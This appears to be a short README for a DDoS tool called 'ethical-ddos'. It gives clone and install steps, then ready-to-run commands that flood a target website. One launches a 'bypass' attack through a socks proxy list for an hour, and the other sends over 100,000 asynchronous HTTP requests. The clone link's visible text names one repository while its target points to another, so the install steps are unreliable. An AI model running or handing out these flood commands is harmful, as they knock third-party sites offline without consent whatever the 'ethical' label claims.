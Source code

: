 


**Clone and Install Script**

```shell script
[git clone https://github.com/MatrixTM/MHDDoS.git](https://github.com/gamal-ahmed/ethical-ddos.git)
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass website 1 101 sockws5.txt 10970 3600 true
```
**Most Effecient to attack from MAC-OS**
```
--debug: for more info and details about the attack
```
```shell script
cd ethical-ddos
python3 asyncio_http.py --urls  website  --total_requests 103002 --debug
```

---

